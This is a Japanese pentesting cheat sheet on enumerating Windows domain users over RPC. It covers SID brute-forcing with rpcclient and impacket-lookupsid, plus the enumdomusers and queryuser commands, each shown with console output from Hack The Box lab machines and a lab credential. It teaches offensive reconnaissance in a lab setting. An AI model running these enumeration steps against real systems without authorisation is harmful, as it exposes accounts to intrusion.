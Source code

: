 # Attack
----

## SID Bruteforce
* セキュリティ識別子（SID）は`S-1-5-ドメイン識別子-相対識別子`で構成される
* ドメイン識別子は予め定められていないが、Administratorなどの一部の相対識別子は予め定められている
  * なお`S-1-5-21-ドメイン識別子-500`はAdministratorである
  * 詳細は[オペレーティング システムの既知のWindows識別子](https://docs.microsoft.com/ja-jp/troubleshoot/windows-server/identity/security-identifiers-in-windows)を参照
* rpcにアクセス可能な権限を有する時、`lookupnames`でドメイン識別子を取得可能
* `lookupsids`でSIDからユーザ名の取得が可能であるため、相対識別子の総当りを行うことで、該当のドメインのユーザを列挙可能
* 上記の相対識別子の総当りを自動化したimpacketのlookupsidsを利用可能
* HTB: Heist

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $rpcclient -U hazard -h heist.htb
  Enter WORKGROUP\hazard's password:
  rpcclient $> lookupnames hazard
  hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1009
  S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1010
  S-1-5-21-4254423774-1266059056-3197185112-1010 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1011
  S-1-5-21-4254423774-1266059056-3197185112-1011 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1012
  S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1013
  S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1014
  S-1-5-21-4254423774-1266059056-3197185112-1014 *unknown*\*unknown* (8)
  rpcclient $> ^C
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $impacket-lookupsid hazard:stealth1agent@heist.htb
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
  
  [*] Brute forcing SIDs at heist.htb
  [*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
  [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
  500: SUPPORTDESK\Administrator (SidTypeUser)
  501: SUPPORTDESK\Guest (SidTypeUser)
  503: SUPPORTDESK\DefaultAccount (SidTypeUser)
  504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
  513: SUPPORTDESK\None (SidTypeGroup)
  1008: SUPPORTDESK\Hazard (SidTypeUser)
  1009: SUPPORTDESK\support (SidTypeUser)
  1012: SUPPORTDESK\Chase (SidTypeUser)
  1013: SUPPORTDESK\Jason (SidTypeUser)
  ```

##  enumdomusers
* enumdomusersを利用し、ドメインユーザを列挙可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> enumdomusers
  user:[Administrator] rid:[0x1f4]
  user:[Guest] rid:[0x1f5]
  user:[krbtgt] rid:[0x1f6]
  user:[SVC_TGS] rid:[0x44f]
  rpcclient $> ^C
  ```



## queryuser
* queryuserを利用し、ユーザのパスワード設定時刻を取得可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> queryuser administrator
          User Name   :   Administrator
          Full Name   :
          Home Drive  :
          Dir Drive   :
          Profile Path:
          Logon Script:
          Description :   Built-in account for administering the computer/domain
          Workstations:
          Comment     :
          Remote Dial :
          Logon Time               :      金, 22  1月 2021 17:42:31 JST
          Logoff Time              :      木, 01  1月 1970 09:00:00 JST
          Kickoff Time             :      木, 01  1月 1970 09:00:00 JST
          Password last set Time   :      木, 19  7月 2018 04:06:40 JST
          Password can change Time :      金, 20  7月 2018 04:06:40 JST
          Password must change Time:      木, 14  9月 30828 11:48:05 JST
          unknown_2[0..31]...
          user_rid :      0x1f4
          group_rid:      0x201
          acb_info :      0x00000210
          fields_present: 0x00ffffff
          logon_divs:     168
          bad_password_count:     0x00000000
          logon_count:    0x00000023
          padding1[0..7]...
          logon_hrs[0..21]...
  rpcclient $> ^C
  ```

  
